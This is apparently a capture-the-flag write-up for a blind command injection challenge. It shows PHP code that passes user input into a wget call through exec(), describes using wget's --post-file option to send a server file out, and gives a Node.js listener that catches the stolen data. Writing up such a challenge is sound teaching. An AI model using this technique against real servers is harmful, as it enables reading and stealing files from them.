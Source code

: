 If any of the values of $flag are not included in example_flag, False is returned.
```php
function getFlag($flag) {
    $command = "wget -q -O - https://kuhi.to/flag/" . $flag;
    $cmd_output = array();
    exec($command, $cmd_output);
    if(count($cmd_output) == 0) {
        echo 'Nope';
    } else {
        echo 'Maybe';
    }
}
```
The getFlag function receives the $flag value, connects it after the wget command, and sets the output of the exec function as an array.<br><br>

Here, if the command executed well, it prints Maybe, and if not, prints Nope.
```php
$flag  = $_GET['flag'];
if(!checkFlag($flag)) {
    die('That is not a correct flag!');
}

getFlag($flag);
```
In the above part, you can see that the flag value is received, the input value is verified using the checkFlag function, and the getFlag function is executed if the filtering does not occur.<br><br>

In this problem, the command execution value is not output, so the input value must be retrieved to a private server.<br><br>

So, first, let's check if there is a way to get the php file using the wget command.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오전%206.48.39.png?raw=true)
When I searched Google for Blind Command Injection, I could see that using the --post-file option of the wget command as above, the file was read and sent as the POST body value.
```javascript
const express = require('express');
const bodyParser = require('body-parser');
const PORT = 80;
const app = express();

app.use(bodyParser.urlencoded({
  extended: true
}));

app.post('/', function(req, res){
	console.log("X-MAS!!!!");
	console.log(req.body);
	res.send();
});

app.listen(PORT, function(){
	console.log('--------------------------------');
	console.log('Listening on port ' + PORT + '...');
	console.log('--------------------------------');
});
```
In order to receive the flag, I built a simple server using Node.js to output the POST body value as above.
